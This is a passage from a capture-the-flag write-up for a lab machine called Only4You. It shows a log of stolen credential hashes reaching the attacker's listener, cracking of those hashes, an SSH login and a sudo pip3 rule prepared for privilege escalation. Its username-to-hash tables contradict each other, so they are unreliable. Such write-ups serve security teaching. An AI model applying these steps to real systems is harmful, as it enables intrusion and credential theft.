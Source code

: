 ```text
10.10.11.210 - - [01/Sep/2023 23:18:59] "GET /?password=8c6976e5b5410415bde908bd4dee15dfb167a9c873fc4bb8a81f6f2ab448a918 HTTP/1.1" 200 -
10.10.11.210 - - [01/Sep/2023 23:18:59] "GET /?username=admin HTTP/1.1" 200 -
10.10.11.210 - - [01/Sep/2023 23:18:59] "GET /?password=a85e870c05825afeac63215d5e845aa7f3088cd15359ea88fa4061c6411c55f6 HTTP/1.1" 200 -
10.10.11.210 - - [01/Sep/2023 23:18:59] "GET /?username=john HTTP/1.1" 200 -
10.10.11.210 - - [01/Sep/2023 23:18:59] "GET /?password=8c6976e5b5410415bde908bd4dee15dfb167a9c873fc4bb8a81f6f2ab448a918 HTTP/1.1" 200 -
10.10.11.210 - - [01/Sep/2023 23:18:59] "GET /?username=admin HTTP/1.1" 200 -
10.10.11.210 - - [01/Sep/2023 23:18:59] "GET /?password=a85e870c05825afeac63215d5e845aa7f3088cd15359ea88fa4061c6411c55f6 HTTP/1.1" 200 -
10.10.11.210 - - [01/Sep/2023 23:18:59] "GET /?username=john HTTP/1.1" 200 -
```

we have 2 users with hashes :

| username | hash                                                             |
| -------- | ---------------------------------------------------------------- |
| john     | 8c6976e5b5410415bde908bd4dee15dfb167a9c873fc4bb8a81f6f2ab448a918 |
| admin    | a85e870c05825afeac63215d5e845aa7f3088cd15359ea88fa4061c6411c55f6 |

On https://crackstation.net/ we can reverse theses hashes :

| Hash                                                             | Type   | Result     |
| ---------------------------------------------------------------- | ------ | ---------- |
| 8c6976e5b5410415bde908bd4dee15dfb167a9c873fc4bb8a81f6f2ab448a918 | sha256 | admin      |
| a85e870c05825afeac63215d5e845aa7f3088cd15359ea88fa4061c6411c55f6 | sha256 | ThisIs4You |


Using 
john:ThisIs4You

we can open a SSH session to the host

ssh john@only4you.htb


### Privilege Escalation

sudo -l
```
Matching Defaults entries for john on only4you:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User john may run the following commands on only4you:
    (root) NOPASSWD: /usr/bin/pip3 download http\://127.0.0.1\:3000/*.tar.gz
```

On port 3000 there is the gog web application. this sudo application 

With the SSH access, we can open a tunnel :
ssh john@only4you.htb -L 3000:localhost:3000
